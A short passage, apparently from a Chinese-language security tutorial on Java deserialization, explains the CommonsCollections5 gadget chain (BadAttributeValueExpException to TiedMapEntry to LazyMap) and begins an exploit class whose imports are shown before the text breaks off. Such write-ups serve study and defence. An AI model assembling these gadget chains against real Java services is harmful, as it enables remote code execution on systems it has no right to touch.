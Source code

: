 ```plain
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CommonsCollections5:

BadAttributeValueExpExceptionl 类的 readObject 方法中有 toString 方法，然后 toString 方法能够调用 getValue 方法，然后调用 TiedMapEntry 中的 getValue，后面就能够调用 Lazymap 里面的 get 方法：

[![](assets/1701612311-e93a00adf134acd702024b5ed71b281c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235618-a3aea15c-20cc-1.png)

```plain
package EXP;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

```